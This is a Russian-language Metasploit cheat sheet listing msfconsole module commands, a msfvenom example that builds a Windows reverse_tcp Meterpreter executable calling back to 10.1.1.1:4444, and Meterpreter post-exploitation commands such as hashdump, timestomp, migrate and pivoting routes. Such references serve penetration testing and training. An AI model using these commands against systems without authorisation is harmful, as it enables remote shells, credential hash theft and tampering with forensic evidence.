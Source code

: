 #### Metasploit:
Поиск модуля:
* msf > search [regex]
Укажите и используйте эксплойт:

* msf > use exploit/[ExploitPath]
Укажите полезную нагрузку для использования:

* msf > set PAYLOAD [PayloadPath]
Показать параметры для текущих модулей:

* msf > show options
Установить параметры:

* msf > set [Option] [Value]
Запустить эксплойт:

* msf > exploit 
Полезные вспомогательные модули
Сканер портов:

* msf > use auxiliary/scanner/portscan/tcp
* msf > set RHOSTS 10.10.10.0/24
* msf > run
Перечисление DNS:

* msf > use auxiliary/gather/dns_enum
* msf > set DOMAIN target.tgt
* msf > run
FTP Сервер:

* msf > use auxiliary/server/ftp
* msf > set FTPROOT /tmp/ftproot
* msf > run
Proxy Сервер:

* msf > use auxiliary/server/socks4
* msf > run 
* msfvenom :

#### Инструмент msfvenom можно использовать для генерации полезных нагрузок Metasploit (например, Meterpreter) в виде отдельных файлов и, при необходимости, для их кодирования.
Этот инструмент заменяет прежние инструменты msfpayload и msfencode.

Запустите с ‘-l payloads’, чтобы получить список полезных нагрузок.

* $ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
Пример :

Полезная нагрузка Reverse Meterpreter в виде исполняемого файла и перенаправленная в файл:

* $ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe
Metasploit Meterpreter
Базовые команды:

* ? / help: вывод сводной информации о командах
* exit / quit: выход из сеанса Meterpreter
* sysinfo: показать имя системы и тип ОС
* shutdown / reboo: не требует пояснений
Команды файловой системы:
* cd: изменить каталог
* lcd: Изменить каталог на локальном (атакующем) компьютере
* pwd / getwd: Показать текущий рабочий каталог
* ls: показать содержимое каталога
* cat: отображать содержимое файла на экране
* download / upload: перемещение файлов на / с целевого компьютера
* mkdir / rmdir: создать / удалить каталог
* edit: открыть файл в редакторе по умолчанию (обычно vi)
Команды процесса:
* getpid: Показать идентификатор процесса, внутри которого работает Meterpreter.
* getuid: Показать идентификатор пользователя, с которым работает Meterpreter.
* ps: Показать список процессов.
* kill: завершить процесс по его идентификатору.
* execute: запустить заданную программу с правами процесса, в который загружен Meterpreter.
* migrate: переход к указанному идентификатору процесса назначения:
Целевой процесс должен иметь такие же или меньшие привилегии
Целевой процесс может быть более стабильным
Находясь внутри процесса, может получить доступ к любым файлам, для которых процесс заблокирован
Сетевые команды:

* ipconfig: Показать информацию о сетевом интерфейсе
* portfwd: пересылка пакетов через сеанс TCP
* route: управление / просмотр таблицы маршрутизации системы
Разные команды:

* idletime: отображение времени, в течение которого GUI целевой машины простаивал.
* uictl [enable/disable] [keyboard/mouse]: включить / отключить мышь или клавиатуру целевой машины.
* screenshot: Сохранить как изображение снимок экрана целевой машины.
 

Дополнительные модули:

* use [module]: загрузить указанный модуль
Пример:
* use priv: загрузить модуль priv

* hashdump: сбросить хэши из коробки
* timestomp: Изменить временные метки файла NTFS
Управление сессиями

Многократная эксплуатация:

Запустите эксплойт, ожидая одну сессию, которая сразу же станет фоновой:

* msf > exploit -z
Запустите эксплойт в фоновом режиме, ожидая одну или несколько сессий, которые сразу же станут фоновыми:

* msf > exploit –j
Перечислите все текущие задания (обычно используют слушателей):

* msf > jobs –l
Убить задание

* msf > jobs –k [JobID]
Несколько сессий:

Перечислите все фоновые сессии:

* msf > sessions -l
Взаимодействовать с фоновым сеансом:

* msf > session -i [SessionID]
Предыстория текущего интерактивного сеанса:

meterpreter > <Ctrl+Z>
или
meterpreter > background
Маршрутизация через сессии:

Все модули (эксплойты / post / aux) против целевой маски подсети будут поворачиваться в течение этого сеанса.

* msf > route add [Subnet to Route To]
[Subnet Netmask] [SessionID]

#### В Metasploit наиболее часто используемые переменные LHOST, RHOST и RPORT.

* LHOST (Local Host) обозначает IP-адрес атакующей машины. Эта переменная обычно используется для установки обратного соединения с вашей машиной после успешной атаки. Например, при эксплуатации уязвимости на целевой системе, LHOST указывает IP-адрес вашей машины, на который будет установлено соединение после выполнения атаки.
* RHOST (Remote Host) обозначает IP-адрес целевой системы, которую вы планируете атаковать или эксплуатировать. При использовании модулей Metasploit, вы должны указать RHOST в качестве целевой системы, чтобы фреймворк знал, на какую систему направить атаку или эксплойт.
* SRVHOST (Server Host) определяет IP-адрес машины, на которой будет запущен сервер для загрузки дополнительных элементов пейлоада. Когда вы используете дополнительные пейлоады, такие как вредоносные файлы или сценарии, SRVHOST указывает, к какому IP-адресу фреймворк должен подключиться для загрузки этих элементов.
* RPORT (Remote Port) обозначает порт на целевой системе, на который будет направлена атака или эксплойт. Указывая значение RPORT, вы определяете конкретный порт, на котором Metasploit будет взаимодействовать с целевой системой в процессе выполнения эксплойта. Это позволяет фреймворку установить соединение с целевой системой через определенный порт и использовать его для эксплуатации уязвимостей или выполнения атак.
